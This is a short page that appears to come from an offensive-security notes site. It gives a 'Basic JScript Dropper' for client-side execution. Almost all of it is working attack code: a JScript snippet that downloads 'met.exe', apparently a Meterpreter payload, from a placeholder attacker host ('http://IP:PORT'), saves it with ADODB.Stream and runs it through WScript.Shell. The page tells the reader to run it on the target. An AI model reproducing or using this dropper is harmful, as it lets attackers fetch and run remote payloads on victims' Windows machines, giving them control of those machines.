 ```yaml
---
title: Basic JScript Dropper
layout: default
parent: Client Side Execution
nav_order: 7
---
```


First you need to host the program, then run this as a js file in the target:

```
var url = "http://IP:PORT/met.exe"
var Object = WScript.CreateObject('MSXML2.XMLHTTP');

Object.Open('GET', url, false);
Object.Send();

if (Object.Status == 200)
{
  var Stream = WScript.CreateObject('ADODB.Stream');
  Stream.Open();
  Stream.Type = 1;
  Stream.Write(Object.ResponseBody);
  Stream.Position = 0;
  Stream.SaveToFile("met.exe", 2);
  Stream.Close();
}

var r = new ActiveXObject("WScript.Shell").Run("met.exe");
```
